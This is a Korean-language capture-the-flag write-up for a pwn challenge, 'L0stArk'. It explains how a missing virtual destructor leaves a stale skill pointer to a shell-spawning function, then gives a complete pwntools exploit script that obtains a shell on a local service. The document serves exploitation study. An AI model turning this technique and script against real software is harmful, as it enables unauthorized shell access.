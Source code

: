 # L0stArk

## 취약점
Character를 상속받은 클래스에 대해 인스턴스를 생성, 삭제 할 수 있고 스킬을 사용 할 수 있다.
캐릭터 생성시 7번을 선택하면 hidden character를 선택할 수 있다.
hidden character는 `system("/bin/sh")`을 실행하는 `skill`인 `gift`가 있지만, `skill`을 직접 사용 할 수 없다.

생성한 캐릭터를 삭제하는 부분에 취약점이 있다.
Character는 virtual Destructor가 없어서 `destroy()`의 `v.erase()`에서 캐릭터를 삭제할 때 `skill`을 nullify 해주는 destructor가 불리지 않는다.

따라서 hidden character를 생성하여 `skill` 자리가 `gift`인 청크를 만들어 준다.
생성한 hidden character를 삭제한 뒤 다른 캐릭터를 생성하면 `skill`이 그대로 `gift`로 유지된다.
`skill`을 사용하여 쉘을 획득한다.

## exploit
```python
from pwn import *

p = remote("localhost", 31678)

def create(no, name=None):
  p.sendlineafter("pick: ", "1")
  p.sendlineafter("pick: ", str(no))
  if name:
    p.sendlineafter("name: ", name)

def choose(no):
  p.sendlineafter("pick: ", "4")
  p.sendlineafter("pick: ", str(no))

def destroy(no):
  p.sendlineafter("pick: ", "2")
  p.sendlineafter("pick: ", "0")

def useskill():
  p.sendlineafter("pick: ", "6")


create(7)
destroy(0)
create(1, "A")
choose(0)
useskill()

p.interactive()
```
